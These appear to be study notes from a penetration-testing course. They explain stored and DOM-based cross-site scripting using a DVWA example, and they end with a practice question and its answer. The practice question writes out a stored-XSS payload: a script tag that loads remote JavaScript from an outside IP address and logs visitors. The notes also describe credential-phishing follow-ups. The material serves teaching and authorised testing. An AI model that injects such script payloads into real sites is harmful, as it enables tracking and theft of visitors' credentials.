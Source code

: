 Stored, or persistent, XSS attacks occur when malicious code or script is permanently stored on a vulnerable or malicious server, using a database. These attacks are typically carried out on websites hosting blog posts (comment forms), web forums, and other permanent storage methods. An example of a stored XSS attack is a user requesting the stored information from the vulnerable or malicious server, which causes the injection of the requested malicious script into the victim’s browser. In this type of attack, the vulnerable server is usually a known or trusted site.

Figure 6-19 and Figure 6-20 illustrate a stored XSS attack. Figure 6-19 shows that a user has entered the string in the second form field in DVWA.

**_Figure 6-19_** _- A Stored XSS Attack in a Web Form_

![[Pasted image 20240616060501.png]]

After the user clicks the Sign Guestbook button, the dialog box shown in Figure 6-20 appears. The attack persists because even if the user navigates out of the page and returns to that same page, the dialog box continues to pop up.

**_Figure 6-20_** _- A Persistent (Stored) XSS Attack_

![[Pasted image 20240616060552.png]]

In this example, the dialog box message is “Omar was here!” However, in a real attack, an attacker might present users with text persuading them to perform a specific action, such as “your password has expired” or “please log in again.” The goal of the attacker would be to redirect the user to another site to steal his or her credentials when the user tries to change the password or once again log in to the fake application.

The Document Object Model (DOM) is a cross-platform and language-independent application programming interface that treats an HTML, XHTML, or XML document as a tree structure. DOM-based attacks are typically reflected XSS attacks that are triggered by sending a link with inputs that are reflected to the web browser. In DOM-based XSS attacks, the payload is never sent to the server. Instead, the payload is only processed by the web client (browser).

In a DOM-based XSS attack, the attacker sends a malicious URL to the victim, and after the victim clicks on the link, the attacker may load a malicious website or a site that has a vulnerable DOM route handler. After the vulnerable site is rendered by the browser, the payload executes the attack in the user’s context on that site.

One of the effects of any type of XSS attack is that the victim typically does not realize that an attack has taken place.

**TIP** DOM-based applications use global variables to manage client-side information. Often developers create unsecured applications that put sensitive information in the DOM (for example, tokens, public profile URLs, private URLs for information access, cross-domain OAuth values, and even user credentials as variables). It is a best practice to avoid storing any sensitive information in the DOM when building web applications.

---

Practice - Stored XSS Attacks

**Q.** As part of the Pixel Paradise pentest, you have visited their product review site and successfully posted the following message:

_Warlocks of Wonder is the greatest game of its type ever made!  
<script src=”https://203.0.113.17/protego_test.js”> </script>_

The script creates logfile entries on a Protego server every time a visitor to the reviews page triggers the script. You immediately start to see entries in the log. What exploit have you created on the Pixel Paradise web site?

**A.** Stored cross-site scripting attack (XSS) attacks occur when malicious code or scripts are permanently stored on a vulnerable or malicious server using a database. These attacks are typically carried out on websites hosting blog posts, web forums, and other permanent storage methods.


